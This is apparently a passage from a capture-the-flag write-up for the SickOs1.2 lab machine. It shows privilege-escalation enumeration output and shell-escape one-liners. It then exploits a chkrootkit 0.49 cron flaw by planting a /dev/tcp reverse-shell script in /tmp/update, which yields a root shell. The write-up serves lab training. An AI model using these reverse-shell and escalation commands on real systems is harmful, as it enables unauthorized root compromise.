root 66 08:12 0:00 [deferwq]
root 67 08:12 0:00 [charger_manager]
root 209 08:12 0:00 [scsi_eh_0]
root 210 08:12 0:00 [scsi_eh_1]
root 211 08:12 0:00 [scsi_eh_2]
root 212 08:12 0:00 [scsi_eh_3]
root 213 08:12 0:00 [scsi_eh_4]
root 214 08:12 0:00 [scsi_eh_5]
root 215 08:12 0:00 [scsi_eh_6]
root 216 08:12 0:00 [scsi_eh_7]
root 217 08:12 0:00 [scsi_eh_8]
root 218 08:12 0:00 [scsi_eh_9]
root 219 08:12 0:00 [scsi_eh_10]
root 220 08:12 0:00 [scsi_eh_11]
root 221 08:12 0:00 [scsi_eh_12]
root 222 08:12 0:00 [scsi_eh_13]
root 223 08:12 0:00 [scsi_eh_14]
root 224 08:12 0:00 [scsi_eh_15]
root 225 08:12 0:00 [scsi_eh_16]
root 226 08:12 0:00 [scsi_eh_17]
root 227 08:12 0:00 [scsi_eh_18]
root 228 08:12 0:00 [scsi_eh_19]
root 229 08:12 0:00 [scsi_eh_20]
root 230 08:12 0:00 [scsi_eh_21]
root 231 08:12 0:00 [scsi_eh_22]
root 232 08:12 0:00 [scsi_eh_23]
root 233 08:12 0:00 [scsi_eh_24]
root 234 08:12 0:00 [scsi_eh_25]
root 235 08:12 0:00 [scsi_eh_26]
root 236 08:12 0:00 [scsi_eh_27]
root 237 08:12 0:00 [scsi_eh_28]
root 238 08:12 0:00 [scsi_eh_29]
root 241 08:12 0:00 [mpt_poll_0]
root 243 08:12 0:00 [mpt/0]
root 270 08:12 0:00 [scsi_eh_30]
root 362 08:12 0:01 [jbd2/sda1-8]
root 363 08:12 0:00 [ext4-rsv-conver]
root 364 08:12 0:00 [ext4-unrsv-conv]
root 452 08:12 0:00 upstart-udev-bridge
root 454 08:12 0:00 /sbin/udevd
102 550 08:12 0:00 dbus-daemon
syslog 554 08:12 0:03 rsyslogd
root 677 08:12 0:00 upstart-socket-bridge
root 740 08:12 0:00 /sbin/udevd
root 741 08:12 0:00 /sbin/udevd
root 745 08:12 0:00 [kpsmoused]
root 760 08:12 0:00 [kworker/0:2]
root 779 08:12 0:01 dhclient3
root 804 08:12 0:00 /usr/sbin/sshd
root 896 08:12 0:00 /sbin/getty
root 900 08:12 0:00 /sbin/getty
root 906 08:12 0:00 /sbin/getty
root 910 08:12 0:00 /sbin/getty
root 913 08:12 0:00 /sbin/getty
root 920 08:12 0:00 cron
daemon 921 08:12 0:00 atd
www-data 962 08:12 11:20 /usr/sbin/lighttpd
www-data 963 08:12 0:00 /usr/bin/php-cgi
www-data 990 08:12 0:00 /usr/bin/php-cgi
www-data 991 08:12 0:00 /usr/bin/php-cgi
www-data 992 08:12 0:00 /usr/bin/php-cgi
www-data 993 08:12 0:00 /usr/bin/php-cgi
root 999 08:12 0:00 /sbin/getty
www-data 8719 12:52 0:00 python
www-data 8964 12:52 0:00 /bin/sh
www-data 8965 12:52 0:00 ps
www-data 8966 12:52 0:00 awk
root 19077 10:47 0:02 [kworker/u2:0]
root 26710 11:29 0:02 [kworker/u2:2]
www-data 30633 12:41 0:00 wget
www-data 32542 12:43 0:00 sh
www-data 32543 12:43 0:00 python
www-data 32544 12:43 0:00 /bin/sh
www-data 32545 12:43 0:00 python
www-data 32546 12:43 0:00 /bin/bash
[+] Apache Version and Modules
[+] Apache Config File
[+] Sudo Version (Check out http://www.exploit-db.com/search/?action=search&filter_page=1&filter_description=sudo)
Sudo version 1.8.3p1
Sudoers policy plugin version 1.8.3p1
Sudoers file grammar version 40
Sudoers I/O plugin version 1.8.3p1
[*] IDENTIFYING PROCESSES AND PACKAGES RUNNING AS ROOT OR OTHER SUPERUSER...
root 741 08:12 0:00 /sbin/udevd
root 25 08:12 0:00 [khungtaskd]
root 22 08:12 0:00 [devfreq_wq]
root 452 08:12 0:00 upstart-udev-bridge
root 23 08:12 1:03 [kworker/0:1]
root 16 08:12 0:00 [bioset]
root 229 08:12 0:00 [scsi_eh_20]
root 237 08:12 0:00 [scsi_eh_28]
root 233 08:12 0:00 [scsi_eh_24]
root 999 08:12 0:00 /sbin/getty
root 232 08:12 0:00 [scsi_eh_23]
root 224 08:12 0:00 [scsi_eh_15]
root 21 08:12 0:00 [md]
root 227 08:12 0:00 [scsi_eh_18]
root 12 08:12 0:00 [kdevtmpfs]
root 364 08:12 0:00 [ext4-unrsv-conv]
root 363 08:12 0:00 [ext4-rsv-conver]
root 67 08:12 0:00 [charger_manager]
root 2 08:12 0:00 [kthreadd]
root 20 08:12 0:00 [khubd]
root 226 08:12 0:00 [scsi_eh_17]
root 230 08:12 0:00 [scsi_eh_21]
root 740 08:12 0:00 /sbin/udevd
root 221 08:12 0:00 [scsi_eh_12]
root 43 08:12 0:00 [kthrotld]
root 211 08:12 0:00 [scsi_eh_2]
root 231 08:12 0:00 [scsi_eh_22]
root 677 08:12 0:00 upstart-socket-bridge
root 241 08:12 0:00 [mpt_poll_0]
root 362 08:12 0:01 [jbd2/sda1-8]
root 228 08:12 0:00 [scsi_eh_19]
root 13 08:12 0:00 [netns]
root 213 08:12 0:00 [scsi_eh_4]
root 804 08:12 0:00 /usr/sbin/sshd
root 222 08:12 0:00 [scsi_eh_13]
root 779 08:12 0:01 dhclient3
root 210 08:12 0:00 [scsi_eh_1]
root 223 08:12 0:00 [scsi_eh_14]
root 234 08:12 0:00 [scsi_eh_25]
root 19077 10:47 0:02 [kworker/u2:0]
root 216 08:12 0:00 [scsi_eh_7]
root 225 08:12 0:00 [scsi_eh_16]
root 28 08:12 0:00 [khugepaged]
root 214 08:12 0:00 [scsi_eh_5]
root 3 08:12 0:36 [ksoftirqd/0]
root 18 08:12 0:00 [kblockd]
root 26 08:12 0:00 [kswapd0]
root 896 08:12 0:00 /sbin/getty
root 243 08:12 0:00 [mpt/0]
root 27 08:12 0:00 [ksmd]
root 760 08:12 0:00 [kworker/0:2]
root 235 08:12 0:00 [scsi_eh_26]
root 217 08:12 0:00 [scsi_eh_8]
root 900 08:12 0:00 /sbin/getty
root 9 08:12 0:51 [rcu_sched]
root 215 08:12 0:00 [scsi_eh_6]
root 7 08:12 0:00 [migration/0]
root 906 08:12 0:00 /sbin/getty
root 218 08:12 0:00 [scsi_eh_9]
root 14 08:12 0:00 [writeback]
root 30 08:12 0:00 [ecryptfs-kthrea]
root 220 08:12 0:00 [scsi_eh_11]
root 19 08:12 0:00 [ata_sff]
root 745 08:12 0:00 [kpsmoused]
root 219 08:12 0:00 [scsi_eh_10]
root 17 08:12 0:00 [kworker/u3:0]
root 212 08:12 0:00 [scsi_eh_3]
root 913 08:12 0:00 /sbin/getty
root 910 08:12 0:00 /sbin/getty
root 11 08:12 0:00 [khelper]
root 238 08:12 0:00 [scsi_eh_29]
root 29 08:12 0:00 [fsnotify_mark]
root 31 08:12 0:00 [crypto]
root 270 08:12 0:00 [scsi_eh_30]
root 236 08:12 0:00 [scsi_eh_27]
root 454 08:12 0:00 /sbin/udevd
root 8 08:12 0:00 [rcu_bh]
root 920 08:12 0:00 cron
Possible Related Packages:
cron 3.0pl1-120ubuntu4 scheduling daemon
root 66 08:12 0:00 [deferwq]
root 5 08:12 0:00 [kworker/0:0H]
root 26710 11:29 0:02 [kworker/u2:2]
root 15 08:12 0:00 [kintegrityd]
root 209 08:12 0:00 [scsi_eh_0]
root 1 08:12 0:01 /sbin/init
Possible Related Packages:
busybox-initramfs 1:1.18.5-1ubuntu4.1 shell setup for initramfs
initramfs-tools 0.99ubuntu13.4 for generating an initramfs
initramfs-tools-bin 0.99ubuntu13.4 used by initramfs-tools
initscripts 2.88dsf-13.10ubuntu11.1 for initializing and shutting down the system
insserv 1.14.0-2.1ubuntu2 to organize boot sequence using LSB init.d script dependencies
libklibc 1.5.25-1ubuntu2 libc subset for use with initramfs
lsb-base 4.0-0ubuntu20.3 Standard Base 4.0 init script functionality
module-init-tools 3.16-1ubuntu2 for managing Linux kernel modules
ncurses-base 5.9-4 terminal type definitions
sysvinit-utils 2.88dsf-13.10ubuntu11.1 utilities
upstart 1.5-0ubuntu7.2 init daemon
root 10 08:12 0:03 [watchdog/0]
root 47 08:12 0:00 [dm_bufio_cache]
[*] ENUMERATING INSTALLED LANGUAGES/TOOLS FOR SPLOIT BUILDING...
[+] Installed Tools
/usr/bin/awk
/usr/bin/perl
/usr/bin/python
/usr/bin/gcc
/usr/bin/cc
/usr/bin/vi
/usr/bin/find
/bin/netcat
/bin/nc
/usr/bin/wget
/usr/bin/ftp
[+] Related Shell Escape Sequences...
vi--> :!bash
vi--> :set shell=/bin/bash:shell
awk--> awk 'BEGIN {system("/bin/bash")}'
find--> find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;
perl--> perl -e 'exec "/bin/bash";'
[*] FINDING RELEVENT PRIVILEGE ESCALATION EXPLOITS...
Note: Exploits relying on a compile/scripting language not detected on this system are marked with a '**' but should still be tested!
The following exploits are ranked higher in probability of success because this script detected a related running process, OS, or mounted file system
The following exploits are applicable to this kernel version and should be investigated as well
- Kernel ia32syscall Emulation Privilege Escalation || http://www.exploit-db.com/exploits/15023 || Language=c
- Sendpage Local Privilege Escalation || http://www.exploit-db.com/exploits/19933 || Language=ruby**
- CAP_SYS_ADMIN to Root Exploit 2 (32 and 64-bit) || http://www.exploit-db.com/exploits/15944 || Language=c
- CAP_SYS_ADMIN to root Exploit || http://www.exploit-db.com/exploits/15916 || Language=c
- MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/1518 || Language=c
- open-time Capability file_ns_capable() Privilege Escalation || http://www.exploit-db.com/exploits/25450 || Language=c
- open-time Capability file_ns_capable() - Privilege Escalation Vulnerability || http://www.exploit-db.com/exploits/25307 || Language=c
Finished
=================================================================================================
A chkrootkit version 0.49 (cronjob) vulnerability found:
www-data@ubuntu:/var/www/test$ chkrootkit -V chkrootkit -V chkrootkit version 0.49
[gandosha@GandoPC ~]$ getsploit chkrootkit 0.49 Total found exploits: 3 Web-search URL: https://vulners.com/search?query=bulletinFamily%3Aexploit+AND+chkrootkit+0.49 +----------------------+--------------------------------+--------------------------------------------+ | ID | Exploit Title | URL | +======================+================================+============================================+ | SSV:87068 | chkrootkit 0.49 - Local Root | https://vulners.com/seebug/SSV:87068 | | | Vulnerability | | +----------------------+--------------------------------+--------------------------------------------+ | EDB-ID:33899 | chkrootkit 0.49 - Local Root | https://vulners.com/exploitdb/EDB-ID:33899 | | | Vulnerability | | +----------------------+--------------------------------+--------------------------------------------+ | 1337DAY-ID-22384 | chkrootkit 0.49 - Local Root | https://vulners.com/zdt/1337DAY-ID-22384 | | | Vulnerability | | +----------------------+--------------------------------+--------------------------------------------+
According to the exploit I had to place the reverse bash file in /tmp/update and provide it executable permissions:
www-data@ubuntu:/var/www/test$ printf '#!/bin/bash\nbash -i >& /dev/tcp/192.168.43.4/443 0>&1\n' > /tmp/update && chmod 777 /tmp/update
At the moment that chkrootkit ran via crontab, a reverse shell initiated with root permissions:
[gandosha@GandoPC ~]$ sudo ncat -lvnp 443 Ncat: Version 7.70 ( https://nmap.org/ncat ) Ncat: Listening on :::443 Ncat: Listening on 0.0.0.0:443 Ncat: Connection from 192.168.43.3. Ncat: Connection from 192.168.43.3:33551. bash: no job control in this shell root@ubuntu:~# pwd pwd /root root@ubuntu:~# ls -aul ls -aul total 76 drwx------ 4 root root 4096 Oct 27 08:13 . drwxr-xr-x 22 root root 4096 Oct 27 09:21 .. -rw-r--r-- 1 root root 39421 Apr 12 2016 304d840d52840689e0ab0af56d6d3a18-chkrootkit-0.49.tar.gz -r-------- 1 root root 491 Apr 26 2016 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt -rw------- 1 root root 3066 Oct 28 07:55 .bash_history -rw-r--r-- 1 root root 3106 Oct 28 07:55 .bashrc drwx------ 2 root root 4096 Oct 27 08:13 .cache drwxr-xr-x 2 john john 4096 Oct 27 08:13 chkrootkit-0.49 -rw-r--r-- 1 root root 541 Oct 27 08:12 newRule -rw-r--r-- 1 root root 140 Apr 25 2016 .profile root@ubuntu:~# cat 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt cat 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt WoW! If you are viewing this, You have "Sucessfully!!" completed SickOs1.2, the challenge is more focused on elimination of tool in real scenarios where tools can be blocked during an assesment and thereby fooling tester(s), gathering more information about the target using different methods, though while developing many of the tools were limited/completely blocked, to get a feel of Old School and testing it manually. Thanks for giving this try. @vulnhub: Thanks for hosting this UP!.